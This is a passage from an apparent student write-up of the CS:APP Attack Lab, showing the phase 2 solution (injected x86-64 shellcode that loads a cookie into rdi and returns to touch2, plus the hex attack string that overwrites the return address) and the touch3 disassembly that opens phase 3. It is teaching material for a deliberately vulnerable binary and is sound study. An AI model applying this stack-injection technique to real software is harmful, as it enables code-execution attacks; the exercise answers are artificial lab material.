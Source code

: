 We can see return address `0x4017ec`, and the argument is passed to register`edi` (line 16). To pass `cmp` at line 16, we need to set value of `edi` before calling `touch2`. Code injection is needed.

The design of attack string may look like as  follow:

- overflowed 8 bytes: address of buffer
- beginning of buffer: injection code

The injection code may looks like as follow(compile ,and use objdump):

```assembly
48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
68 ec 17 40 00       	pushq  $0x4017ec
c3                   	retq 
```

where `0x59b997fa` is cookie value.

So solution of phase 2 may look like:

```c
00000000: 48c7 c7fa 97b9 5968 ec17 4000 c361 6161 
00000010: 6161 6161 6161 6161 6161 6161 6161 6161 
00000020: 6161 6161 6161 6161 78dc 6155 0000 0000 
00000030: 0a
```

## Phase 3

In Phase 3, we need to pass string form of cookie to `touch3`. function `touch3` is shown below:

```assembly
   0x00000000004018fa <+0>:	push   rbx
   0x00000000004018fb <+1>:	mov    rbx,rdi
   0x00000000004018fe <+4>:	mov    DWORD PTR [rip+0x203bd4],0x3        # 0x6054dc <vlevel>
   0x0000000000401908 <+14>:	mov    rsi,rdi
   0x000000000040190b <+17>:	mov    edi,DWORD PTR [rip+0x203bd3]        # 0x6054e4 <cookie>
   0x0000000000401911 <+23>:	call   0x40184c <hexmatch>
   0x0000000000401916 <+28>:	test   eax,eax
   0x0000000000401918 <+30>:	je     0x40193d <touch3+67>
   0x000000000040191a <+32>:	mov    rdx,rbx
   0x000000000040191d <+35>:	mov    esi,0x403258
   0x0000000000401922 <+40>:	mov    edi,0x1
   0x0000000000401927 <+45>:	mov    eax,0x0
   0x000000000040192c <+50>:	call   0x400df0 <__printf_chk@plt>
   0x0000000000401931 <+55>:	mov    edi,0x3
   0x0000000000401936 <+60>:	call   0x401dad <validate>
   0x000000000040193b <+65>:	jmp    0x40195e <touch3+100>
   0x000000000040193d <+67>:	mov    rdx,rbx
   0x0000000000401940 <+70>:	mov    esi,0x403280
   0x0000000000401945 <+75>:	mov    edi,0x1
   0x000000000040194a <+80>:	mov    eax,0x0
   0x000000000040194f <+85>:	call   0x400df0 <__printf_chk@plt>
   0x0000000000401954 <+90>:	mov    edi,0x3
   0x0000000000401959 <+95>:	call   0x401e6f <fail>
   0x000000000040195e <+100>:	mov    edi,0x0
   0x0000000000401963 <+105>:	call   0x400e40 <exit@plt>
```
